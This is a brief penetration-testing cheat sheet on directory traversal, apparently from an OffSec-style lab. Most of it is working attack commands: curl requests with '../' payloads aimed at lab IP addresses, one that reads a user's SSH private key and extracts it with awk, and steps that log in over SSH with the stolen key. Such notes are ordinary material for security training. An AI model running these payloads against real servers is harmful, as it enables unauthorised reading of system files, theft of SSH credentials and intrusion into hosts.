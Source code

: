 ```yaml
---
description: >-
  Directory Traversal is a known web vulnerability which allows the attacker to
  view files on the servers. Attackers can elevate this vulnerability to read
  sensitive files such as SSH keys
---
```


# Directory Traversal

In case of traversal in URL: `<url>/../../../etc/passwd` use the `--path-as-is` flag:

```bash
curl -i --path-as-is http://192.168.227.193:3000/public/plugins/mysql/../../../../../../../../Users/install.txt  
```

### Stealing SSH Keys

```bash
curl -i http://192.168.227.16/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa | awk '/BEGIN/,/END/'
```

Connect using the SSH key

```bash
# Change premissions
sudo chmod 600 ssh.key
# Connect
ssh 192.168.227.16 -i ssh.key
```
